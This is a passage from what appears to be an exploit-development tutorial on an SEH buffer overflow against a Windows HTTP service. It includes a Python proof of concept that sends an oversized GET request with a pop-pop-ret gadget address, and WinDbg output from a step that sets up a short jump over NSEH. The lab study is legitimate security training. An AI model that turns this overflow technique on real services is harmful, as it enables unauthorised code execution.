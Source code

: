 {% code title="sehof_ppr.py" %}
```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
    return struct.pack('<I', num)

host = '127.0.0.1'
port = 80
size = 6000

exp  = b''
exp += little_endian(0x101576c0)  # (PPR) pop eax; pop ebx; ret

filler = b'A' * 2499
junk   = b'C' * (size - len(filler + exp))

buf = filler + exp + junk

request  = b'GET /' + buf + b'HTTP/1.1' + b'\r\n'
request += b'Host: ' + host.encode() + b'\r\n'
request += b'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0' + b'\r\n'
request += b'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' + b'\r\n'
request += b'Accept-Language: en-US,en;q=0.5' + b'\r\n'
request += b'Accept-Encoding: gzip, deflate' + b'\r\n'
request += b'Connection: keep-alive' + b'\r\n\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(request)
s.close()
```
{% endcode %}




## 5. Short Jump over NSEH

Break on the P/P/R and assemble a short jump over the *Next* structure exception handler:

```
PS > Restart-Service "Vuln Service"; .\DbgX.Shell.exe -pn vulnsvc.exe -c 'g; bp 0x101576c0; g'; sleep 2; python C:\sehof_ppr.py

Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=101576c0 edx=77e06fa0 esi=00000000 edi=00000000
eip=101576c0 esp=01c4b8f8 ebp=01c4b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16450:
101576c0 58              pop     eax
0:012> t
eax=77e06f82 ebx=00000000 ecx=101576c0 edx=77e06fa0 esi=00000000 edi=00000000
eip=101576c1 esp=01c4b8fc ebp=01c4b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16451:
101576c1 5b              pop     ebx
0:012> t
eax=77e06f82 ebx=01c4ba00 ecx=101576c0 edx=77e06fa0 esi=00000000 edi=00000000
eip=101576c2 esp=01c4b900 ebp=01c4b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16452:
```